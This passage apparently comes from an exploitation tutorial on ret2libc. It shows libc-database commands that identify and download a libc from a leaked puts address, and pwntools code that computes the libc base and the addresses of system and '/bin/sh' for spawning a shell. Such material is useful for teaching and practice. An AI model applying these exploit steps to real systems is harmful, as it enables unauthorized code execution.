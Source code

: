 We can figure out which **libc** that is most likely used.

```text
./find puts 0x7ff629878690
ubuntu-xenial-amd64-libc6 (id libc6_2.23-0ubuntu10_amd64)
archive-glibc (id libc6_2.23-0ubuntu11_amd64)
```

We get 2 matches \(you should try the second one if the first one is not working\). Download the first one: 

```text
./download libc6_2.23-0ubuntu10_amd64
Getting libc6_2.23-0ubuntu10_amd64
  -> Location: http://security.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.23-0ubuntu10_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.23-0ubuntu10_amd64
```

Copy the libc from `libs/libc6_2.23-0ubuntu10_amd64/libc-2.23.so` to our working directory.

### 3.3- Other functions to leak

```python
puts
printf
__libc_start_main
read
gets
```

## 4- Finding based libc address & exploiting

At this point we should know the libc library used. As we are exploiting a local binary I will use just:`/lib/x86_64-linux-gnu/libc.so.6`

So, at the begging of `template.py` change the **libc** variable to: `libc = ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it`

Giving the **path** to the **libc library** the rest of the **exploit is going to be automatically calculated**. 

Inside the `get_addr`function the **base address of libc** is going to be calculated:

```python
    if libc != "":
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
```

Then, the address to the function `system` and the **address** to the string _"/bin/sh"_ are going to be **calculated** from the **base address** of **libc** and given the **libc library.**

```python
BINSH = next(libc.search("/bin/sh")) - 64 #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
```
